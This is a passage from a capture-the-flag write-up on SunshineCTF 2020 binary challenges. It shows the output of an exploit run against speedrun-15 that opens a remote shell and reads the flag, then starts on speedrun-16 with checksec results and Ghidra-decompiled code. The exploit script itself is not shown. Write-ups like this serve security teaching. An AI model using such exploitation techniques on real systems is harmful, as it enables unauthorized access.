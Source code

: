 Output:

```bash
# ./exploit_15.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-15/chall_15'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to chal.2020.sunshinectf.org on port 30015: Done
[*] stack: 0x7ffd4e7d875a
[*] stack: 0x7ffd4e7d8770
[*] Switching to interactive mode
$ id
uid=1000(chall_15) gid=1000(chall_15) groups=1000(chall_15)
$ ls -l
total 16
-rwxr-xr-x 1 root root     8464 Nov  7 07:49 chall_15
-rw-r----- 1 root chall_15   34 Nov  7 08:52 flag.txt
$ cat flag.txt
sun{bat-country-53036e8a423559df}
```


## speedrun-16

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place.  Nice.

### Decompile with Ghidra

```c
void main(void)
{
  size_t sVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  int local_60;
  char local_58 [56];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  fgets(local_58,0x31,stdin);
  sVar1 = strlen(local_58);
  sVar2 = strlen(key);
  if (sVar1 == sVar2) {
    local_60 = 0;
    while( true ) {
      sVar1 = strlen(key);
      if (sVar1 <= (ulong)(long)local_60) break;
      if (local_58[local_60] != key[local_60]) {
        exit(0);
      }
      local_60 = local_60 + 1;
    }
```